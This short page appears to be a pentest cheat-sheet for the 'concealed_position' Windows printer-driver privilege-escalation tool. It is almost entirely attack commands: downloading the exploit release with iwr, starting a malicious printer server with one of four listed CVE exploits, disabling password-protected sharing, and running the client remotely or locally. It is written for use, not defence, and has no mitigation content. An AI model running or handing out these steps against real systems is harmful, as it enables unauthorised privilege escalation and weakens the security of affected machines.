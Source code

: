 ### Download exploit
```
iwr https://github.com/jacob-baines/concealed_position/releases/download/1.0.0/release_1.0.zip -outfile concealed_position.zip
```

### Unzip
```
Expand-Archive -LiteralPath concealed_position.zip -DestinationPath concealed_position
```

### Start cp_server and set up a new printer (-e exploit to use)
```
cp_server.exe -e ACIDDAMAGE
```

### Possible exploits:
```
CVE-2021-35449 ACIDDAMAGE
CVE-2019-19363 POISONDAMAGE
CVE-2021-38085 RADIANTDAMAGE
CVE-2020-1300  SLASHINGDAMAGE
```

### Show added printer
```
Get-Printer
```

### Manual step
```
in Advanced Sharing Settings > turn off password protected sharing
```

### Start client remotely (-n remote evil printer name, -e exploit to use)
```
cp_client.exe -r <lhost> -n ACIDDAMAGE -e ACIDDAMAGE
```

### Start client localy
```
cp_client.exe -l -e ACIDDAMAGE
```

### References
https://github.com/jacob-baines/concealed_position  

